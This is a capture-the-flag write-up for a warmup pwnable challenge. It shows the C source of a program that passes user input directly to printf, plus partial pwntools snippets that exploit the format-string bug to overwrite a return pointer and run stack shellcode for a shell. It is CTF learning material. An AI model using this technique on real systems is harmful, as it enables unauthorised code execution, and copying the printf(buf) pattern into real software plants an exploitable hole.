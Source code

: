 # nothing more to say 2020

## General

This was a warmup challenge and so the challenge creators decided to provide us with the challenge source code and tell us what the vulnerability is:

```c
// gcc -fno-stack-protector -no-pie -z execstack
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void init_proc() {
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);
}

void read_string(char* buf, size_t length) {
    ssize_t n;
    n = read(STDIN_FILENO, buf, length);
    if (n == -1)
        exit(1);
    buf[n] = '\0';
}

int main(void) {
    char buf[0x100]; 
    init_proc();
    printf("Hello CTF Players!\nThis is a warmup challenge for pwnable.\nDo you know about Format String Attack(FSA) and write the exploit code?\nPlease pwn me!\n");
    while (1) {
        printf("> ");
        read_string(buf, 0x100);
        if (buf[0] == 'q')
            break;
        printf(buf);
    }
    return 0;
}
```

The code is very simple, there's a main loop, that reads in up to `0x100` characters from `stdin` into a `0x100` bytes buffer and directly passes that buffer as the first argument to `printf()`. This makes the program prone to a Format String Attack(FSA). 

Another interesting detail is, that the program has been compiled with `gcc -fno-stack-protector -no-pie -z execstack`. These flags will disable a range of exploit mitigations, which simplifies exploiting this vulnerability by a lot. 

## Exploit

This setup enables us to use very basic techniques to exploit the vulnerability. Our plan is to use the FSA to 

1. leak a stack address, 
2. write shellcode to the stack and finally 
3. overwrite a return pointer on the stack to point to our shellcode

This can be easily automated using the python `pwntools` package. First, we build a function to send arbitrary formatstrings to the program:
```python
def send_format(fmt):
    s.writeline(fmt)
    return s.readuntil(b"> ", drop=True)
```

Then, we overwrite the return pointer of the main stackframe to point to a buffer using pwntools' `FmtStr` helper functions:
```python
    f = pwn.FmtStr(send_format)
    f.write(main_return, buffer_addr)
    f.execute_writes()
```

and finally, we write our shellcode to that buffer:

```python
s.writeline(b"\x90"*0x30+pwn.asm(pwn.shellcraft.sh()))
```

All that's left to do now it to send the `q` command, which will trigger a return from the main function, which in return will fetch our corrupted return pointer, giving us arbitrary code execution.


